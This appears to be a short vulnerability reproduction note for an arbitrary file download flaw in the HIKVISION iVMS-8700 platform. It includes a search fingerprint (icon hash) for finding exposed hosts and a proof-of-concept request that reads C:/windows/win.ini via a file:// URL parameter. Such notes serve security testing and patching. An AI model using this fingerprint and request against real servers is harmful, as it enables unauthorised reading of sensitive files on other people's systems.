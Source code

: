 # HIKVISION iVMS-8700 Comprehensive Security Management Platform Download Any File Download Vulnerability

## Vulnerability Description

There is a vulnerability to read any file in the HIKVISION iVMS-8700 comprehensive security management platform. The attacker can read sensitive files in the server by sending a specific request packet.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION iVMS-8700 Comprehensive Security Management Platform</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="-911494769"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637649859645-abee2ae8-c4e5-46a1-b50e-54f9b7e7c019.png)

Verify POC, token is Url md5

```php
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1685329799397-00a22589-5e0f-43a3-a7c9-ae17687c5dbb.png)